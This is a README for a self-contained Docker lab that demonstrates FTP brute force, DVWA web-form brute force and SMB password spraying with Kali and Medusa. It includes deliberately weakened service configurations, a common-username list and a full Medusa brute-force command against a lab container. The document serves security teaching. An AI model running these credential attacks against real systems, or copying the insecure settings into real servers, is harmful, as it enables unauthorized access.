# Brute-Force Lab with Kali Linux, Medusa, and Docker

## 1. Challenge overview

The challenge proposes implementing, documenting, and sharing a hands-on offensive security project using Kali Linux and the Medusa tool against vulnerable environments. The planned scenarios are:

- FTP brute-force attack;
- automated attempts against a web form with DVWA;
- SMB user enumeration and password spraying;

This lab reproduces all three scenarios in isolated Docker containers, with fixed IP addresses, controlled users, and passwords generated from defined patterns. The goal is to demonstrate reproducibly how brute-force attacks and password spraying work, what their limits are, and how to mitigate them.

> **Warning:** this environment contains intentionally vulnerable services. It must not be exposed to the internet or reused in any context beyond an isolated experimentation lab.

## 2. Changes and rationale

The original challenge suggests two VirtualBox VMs: Kali Linux and Metasploitable 2. This project adapts the environment to Docker.

| Original item       | Decision adopted | Rationale |
|---------------------|-----------------|-----------|
| VirtualBox with VMs | Docker          | Lighter, reproducible, and easier to clean up |
| Kali Linux VM       | `kalilinux/kali-rolling` container | Same tools, without virtualization overhead |
| Metasploitable 2    | Debian 12 containers | Exact control over users, passwords, and services |
| Host-only network   | Docker network `172.28.0.0/16` and fixed IPs | Known addresses and host isolation |
| Standardized passwords | `000aa` `00aa` | Smaller space and exhaustive combination tests, feasible execution, and time comparisons |
| One test scenario   | Three trials    | Compares 9 users, 1 user with `00aa`, and 1 user with `000aa` |

The following assumptions were also adopted:

- one container for each target service, to allow testing specific services;
- fixed IPs for all containers;
- no ports published on the host;
- all scripts track elapsed time in `HH:MM:SS`;
- wordlists and credentials are explicitly stored in files, with no hidden "trial" logic in the scripts;
- SMB spraying is performed only in the trial with 9 users, since spraying requires multiple users.

## 3. Environment setup

### 3.0 Prerequisites, structure, and wordlists

Requirements:

- Docker installed and the user in the `docker` group;
- about 5 GB of free disk space;
- at least 4 GB of available memory;
- internet access to download images and packages during the build.

Project structure:

```text
.
├── scripts/
│   ├── 00-check-prereqs.sh
│   ├── 01-password-generator.sh
│   ├── 02-wordlists-generate.sh
│   ├── 03-ftp-install-config.sh
│   ├── 04-ftp-test.sh
│   ├── 05-web-install-config.sh
│   ├── 06-web-test.sh
│   ├── 07-smb-install-config.sh
│   ├── 08-smb-test.sh
│   ├── 09-kali-setup.sh
│   ├── 10-ftp-attack.sh
│   ├── 11-web-attack.sh
│   ├── 12-smb-attack.sh
│   └── 99-teardown.sh
├── docker/
│   ├── ftp/
│   ├── web/
│   ├── smb/
│   └── kali/
├── wordlists/
├── logs/
├── images/
├── chalenge.md
├── my-plan.md
├── plan.md
└── README.md
```

Network and addresses:

| Container  | IP            | Service                             |
|------------|---------------|-------------------------------------|
| `lab-ftp`  | `172.28.0.10` | FTP (vsftpd)                        |
| `lab-web`  | `172.28.0.11` | Web (Apache + PHP + MariaDB + DVWA) |
| `lab-smb`  | `172.28.0.12` | SMB (Samba)                         |
| `lab-kali` | `172.28.0.13` | Kali + Medusa + tools               |

The Docker network used is `lab-net`, subnet `172.28.0.0/16`.

Initial check:

```bash
bash scripts/00-check-prereqs.sh
```

The script checks helper commands, Docker, base images, available subnet, disk, and memory.

|  |
|:--:|
| _prerequisite check script result_ |

#### Generating wordlists

The generator accepts the tokens `d` (digit), `l` (lowercase), `L` (uppercase), and `#` (symbol). Repeated characters within each class are not allowed.

Examples and counts:

| Pattern             | Total |
|---------------------|-------|
| `ddll` (`00aa`)     | 58,500 |
| `dddll` (`000aa`)   | 468,000 |
| `ddddll` (`0000aa`) | 3,276,000 |
| `dddlll` (`000aaa`) | 11,232,000 |
| `ddllLL##`          | 3,422,250,000 |

Usage examples for generating all possible combinations of a pattern:

```bash
bash scripts/01-password-generator.sh --pattern ddll --all > wordlists/trial1-passwords.txt
bash scripts/01-password-generator.sh --pattern dddll --all > wordlists/trial3-passwords.txt
```

|  |
|:--:|
| _password generation results for trials 1 and 3_ |

> Note: trials 1 and 2 use files with identical contents.

Usage example for generating 8 random passwords:

```bash
bash scripts/01-password-generator.sh --pattern ddll --random --count 8 --seed 42
```

|  |
|:--:|
| _result of generating 8 random passwords_ |

Files generated in `wordlists/`:

| File                     | Contents                                      |
|--------------------------|-----------------------------------------------|
| `users.txt`              | Master list of the 9 users                    |
| `trial1-users.txt`       | The 9 users                                   |
| `trial1-credentials.txt` | Correct credentials; `backup:12ab`            |
| `trial1-passwords.txt`   | 58,500 candidates (`00aa`)                    |
| `trial1-spray.txt`       | 10 passwords for spraying, including `12ab`   |
| `trial2-users.txt`       | `admin`                                       |
| `trial2-credentials.txt` | Correct credentials; `admin:12ab`             |
| `trial2-passwords.txt`   | 58,500 candidates (`00aa`)                    |
| `trial3-users.txt`       | `admin`                                       |
| `trial3-credentials.txt` | Correct credentials; `admin:123ab`             |
| `trial3-passwords.txt`   | 468,000 candidates (`000aa`)                  |

`credentials.txt` contains the correct credentials used to configure the service and validate access. `passwords.txt` contains the attack candidate list. `spray.txt` contains the reduced password-spraying list.

User list:

```text
admin
administrator
root
user
test
guest
support
backup
adm
```

Trial matrix:

| # | Users     | Pattern | Services          | Fixed password     | Expected result                 |
|---|-----------|---------|-------------------|--------------------|---------------------------------|
| 1 | 9         | `ddll`  | FTP/Web/SMB spray | `backup` = `12ab`  | FTP/Web: 9/9; SMB: 1/1 `backup` |
| 2 | 1 `admin` | `ddll`  | FTP, Web          | `admin` = `12ab`   | 1/1                             |
| 3 | 1 `admin` | `dddll` | FTP, Web          | `admin` = `123ab`  | 1/1                             |

Positions of the fixed passwords in the generator's lexicographic order:

- `12ab`: line 6,501 of 58,500;
- `123ab`: line 52,651 of 468,000.

### 3.1 Creating the FTP service

The FTP service uses Debian 12 with `vsftpd`, in the `lab-ftp` container (`172.28.0.10`).

Main configuration:

```ini
listen=YES
listen_ipv6=NO
anonymous_enable=NO
local_enable=YES
write_enable=YES
local_umask=022
chroot_local_user=YES
allow_writeable_chroot=YES
pasv_enable=YES
pasv_min_port=40000
pasv_max_port=40100
pasv_address=172.28.0.10
pam_service_name=vsftpd
seccomp_sandbox=NO
```

Creation and configuration:

```bash
bash scripts/03-ftp-install-config.sh --credentials wordlists/trial1-credentials.txt
```

The script builds the image, creates the network if needed, removes the previous container, starts `lab-ftp`, and creates users from the credentials file.

|  |
|:--:|
| _creating the FTP service container (1/2)_ |

|  |
|:--:|
| _creating the FTP service container (2/2)_ |

Tests:

```bash
bash scripts/04-ftp-test.sh --credentials wordlists/trial1-credentials.txt
```

The tests run from a temporary `debian:12` container on the `lab-net` network named `lab-ftp-test` and check:

- login with the correct credential and directory listing;
- authentication failure with an incorrect password.

|  |
|:--:|
| _FTP service access test_ |

### 3.2 Creating the Web service

The web service uses Debian 12 with Apache, PHP 8.2, MariaDB, and DVWA 2.5, in the `lab-web` container (`172.28.0.11`).

Characteristics:

- DVWA cloned from `https://github.com/digininja/DVWA.git`;
- path `/var/www/html/DVWA`;
- database `dvwa`, user `dvwa`;
- `default_security_level=low`;
- attack page: `vulnerabilities/brute/`;
- at the `low` level, the page uses GET and MD5 and does not require CSRF;
- DVWA login requires CSRF, so the attack authenticates with `curl` before calling Medusa.

Creation and configuration:

```bash
bash scripts/05-web-install-config.sh --credentials wordlists/trial1-credentials.txt
```

The script starts the container, initializes MariaDB, configures DVWA, runs the database setup, and inserts or updates the 9 users in the `users` table with MD5 passwords.

|  |
|:--:|
| _creating the web service container (1/2)_ |

|  |
|:--:|
| _creating the web service container (2/2)_ |

Tests:

```bash
bash scripts/06-web-test.sh --credentials wordlists/trial1-credentials.txt
```

The tests run inside a temporary container named `lab-web-test` and check:

- access to the login page;
- authentication with `admin` and the correct password;
- failure with an incorrect password.

|  |
|:--:|
| _web service access test_ |

### 3.3 Creating the SMB service

The SMB service uses Debian 12 with Samba 4.17, in the `lab-smb` container (`172.28.0.12`).

Main configuration:

```ini
[global]
   workgroup = WORKGROUP
   server string = Lab SMB
   security = user
   map to guest = never
   server min protocol = NT1
   ntlm auth = yes
   restrict anonymous = 0
   passdb backend = tdbsam
   smb ports = 445 139
   log file = /var/log/samba/log.%m
   max log size = 1000

[labshare]
   path = /srv/smb/labshare
   browseable = yes
   read only = no
   valid users = @smbusers
   create mask = 0660
   directory mask = 0770
```

Compatibility decisions:

- `server min protocol = NT1` allows use of `enum4linux`/`rpcclient`;
- `ntlm auth = yes` allows the authentication used by Medusa;
- `restrict anonymous = 0` allows user enumeration in the lab;
- Kali's Medusa 2.3-3 is compiled with `libsmb2` and negotiates SMB2/3.

Creation and configuration:

```bash
bash scripts/07-smb-install-config.sh --credentials wordlists/trial1-credentials.txt
```

|  |
|:--:|
| _creating the SMB service container (1/2)_ |

|  |
|:--:|
| _creating the SMB service container (2/2)_ |

Tests:

```bash
bash scripts/08-smb-test.sh --credentials wordlists/trial1-credentials.txt
```

The tests check:

- share listing and access to `labshare` with the correct credential;
- failure with an incorrect password.

|  |
|:--:|
| _SMB service access test_ |

## 4. Starting the target services

The services can be checked with:

```bash
docker ps --format 'table {{.Names}}\t{{.Status}}\t{{.Networks}}' --filter "name=lab"
docker network inspect lab-net
```

|  |
|:--:|
| _listing service containers_ |

Addresses:

| Service | URL/IP                     | Port  |
|---------|----------------------------|-------|
| FTP     | `ftp://172.28.0.10`        | 21    |
| Web     | `http://172.28.0.11/DVWA/` | 80    |
| SMB     | `//172.28.0.12/labshare`   | 445/139 |

No ports are published on the host. All access is through the Docker network or via `docker exec`, as specified in the challenge description.

## 5. Running Kali to exploit the targets

The `lab-kali` container (`172.28.0.13`) is built with:

- `medusa` 2.3-3;
- `enum4linux`;
- `smbclient`;
- `nmap`;
- `curl`;
- `lftp`.

Creation:

```bash
bash scripts/09-kali-setup.sh
```

|  |
|:--:|
| _creating the Kali container (1/2)_ |

|  |
|:--:|
| _creating the Kali container (2/2)_ |

Validation:

```bash
docker exec lab-kali medusa -V
docker exec lab-kali enum4linux -h | head -n 3
docker exec lab-kali smbclient --version
```

|  |
|:--:|
| _Kali container validation_ |

### 5.1 FTP brute-force attack

#### Trial 1 (9 users, `00aa`, FTP):

```bash
bash scripts/10-ftp-attack.sh \
  --users wordlists/trial1-users.txt \
  --passwords wordlists/trial1-passwords.txt
```

Command run inside Kali:

```bash
medusa \
  -h 172.28.0.10 \
  -U /wordlists/trial1-users.txt \
  -P /wordlists/trial1-passwords.txt \
  -M ftp \
  -t 4 \
  -g 10 \
  -v 4 \
  -O /logs/medusa-ftp-trial1.log
```

